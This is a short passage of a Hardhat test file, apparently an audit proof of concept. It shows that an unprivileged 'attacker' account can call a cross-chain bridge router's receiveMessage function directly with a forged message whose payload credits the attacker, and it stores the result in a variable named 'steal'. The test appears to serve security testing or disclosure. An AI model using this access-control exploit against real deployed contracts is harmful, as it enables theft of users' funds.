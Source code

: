 ```javascript
    };
  }





  describe ("Anyone can call the router Recieve function",() => {

    it("Should successfuly  call the router Recieve function", async () => {
      const { user, bridgeRouter,unusedUsers, startingBalance, userId,bridgeMessengerAddress } = await loadFixture(fundUserIdFixtureBigEth);

     const attacker = unusedUsers[12];
     console.log("signer",unusedUsers[12].address);

    

      
      const message: MessageReceived = {
        messageId: getRandomBytes(BYTES32_LENGTH),
        sourceChainId: BigInt(0),
        sourceAddress: convertEVMAddressToGenericAddress(unusedUsers[0].address),
        handler: convertEVMAddressToGenericAddress(bridgeMessengerAddress),
        payload: buildMessagePayload(0, accountId, attacker.address, "0x"),
        returnAdapterId: BigInt(0),
        returnGasLimit: BigInt(0),
      };


      // directly call bridgeRouter 
     const steal = await bridgeRouter.connect(attacker).receiveMessage(message); 
      const receipt = await ethers.provider.getTransactionReceipt(steal.hash);


    });
  })
});
```